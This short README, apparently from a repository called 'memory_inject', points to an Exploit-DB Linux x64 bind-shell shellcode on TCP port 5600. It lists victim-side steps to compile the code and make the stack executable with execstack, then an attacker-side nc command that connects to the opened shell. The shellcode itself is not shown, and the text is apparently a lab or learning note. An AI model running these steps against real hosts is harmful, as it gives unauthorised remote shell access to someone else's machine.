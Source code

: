 # memory_inject

Linux/x64 - Bind (5600/TCP) Shell Shellcode (87 bytes) 
https://www.exploit-db.com/exploits/41128

TCP bind shell

victim host
1) $ gcc -o bind_shell bind_shell.c
2) $ execstack -s bind_shell
3) $ ./bind_shell

attacker host
1) $ nc victim_host 5600
